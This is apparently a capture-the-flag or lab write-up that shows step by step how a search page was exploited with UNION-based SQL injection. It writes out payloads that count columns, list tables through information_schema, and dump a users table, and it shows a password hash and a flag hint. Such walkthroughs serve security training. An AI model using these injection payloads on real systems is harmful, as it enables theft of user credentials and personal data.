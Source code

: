 in the search members page, we have tried the generic union select payloads from this link https://github.com/payloadbox/sql-injection-payload-list
using this input "5 UNION ALL SELECT 1" we had incorrect number of columns message, so we have tried this "5 UNION ALL SELECT 1,2"
we used the information schema and the cancatanate cmd following this input 5 UNION SELECT 1, CONCAT(table_name,1000001,column_name) FROM information_schema.columns, we found table called users, and it has (username,password,user_id,first_name,last_name,town, country,planet), using this command to get all values....5 UNION SELECT 1, CONCAT(user_id,first_name,last_name,town,country,planet,Commentaire,countersign) from users, this has been shown

ID: 5 UNION SELECT 1, CONCAT(user_id,first_name,last_name,town,country,planet,Commentaire,countersign) from users 
First name: 1
Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it is good !5ff9d0165b4f92b14994e5c685cdce28